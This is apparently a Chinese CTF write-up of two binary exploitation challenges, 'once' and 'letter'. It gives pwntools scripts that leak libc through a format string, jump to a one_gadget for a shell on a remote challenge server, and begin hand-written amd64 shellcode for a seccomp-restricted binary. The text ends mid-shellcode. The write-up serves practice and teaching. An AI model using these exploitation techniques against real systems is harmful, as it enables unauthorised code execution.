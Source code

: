 最后的 getshell 中 +0x4f3d5 用 one_gadget [libcname] 指令

![20210308133927](https://raw.githubusercontent.com/YTrick/image/branch/image/20210308133927.png)

exp：

```py
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'zsh', '-c']
context.log_level = 'info'

p = remote('182.92.108.71',30107)
#p = process('./once')
#p = remote('127.0.0.1',12345)

libc = ELF('./libc-2.27.so', checksec=False)
binary = ELF('./once', checksec=False)
payload = '%13$p\n'
payload = payload.ljust(0x28,'a')
payload +=   '\xD3' 
p.sendafter('It is your turn: ',payload)

libc_addr = p.recvuntil('\n','True')
libc_addr = int(libc_addr,16)
libc_base = libc_addr  - libc.symbols['__libc_start_main'] - 0xe7
print('libc_base',hex(libc_base))

getshell = 'a' *0x28
getshell += p64(libc_base + 0x4f3d5)

p.recvuntil('It is your turn: ')
p.sendline(getshell)

p.interactive()
```





## letter（没搞懂

![20210307191837](https://raw.githubusercontent.com/YTrick/image/branch/image/20210307191837.png)

程序禁用了一些系统调用，导致无法直接用 shellcode 直接getshell ，即 asm(shellcraft.sh())，所以得手写汇编 shellcode；因为程序是64位的，所以要写 context.arch = 'amd64'


![20210307194929](https://raw.githubusercontent.com/YTrick/image/branch/image/20210307194929.png)

负数溢出，但是没搞明白的是为什么是 -268376833 。。。。当事人非常郁闷

exp:

```py
from pwn import *
context.arch = 'amd64'
context.log_level='debug'
#r = process('./letter')
r=remote('182.92.108.71',31305)
r.sendlineafter('?','-268376833')
#r.sendline('a'*0x18+p64(0x60105c)+asm(shellcraft.sh()))
shellcode = '''
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x67616c66
xor [rsp], rax
mov rdi, rsp
```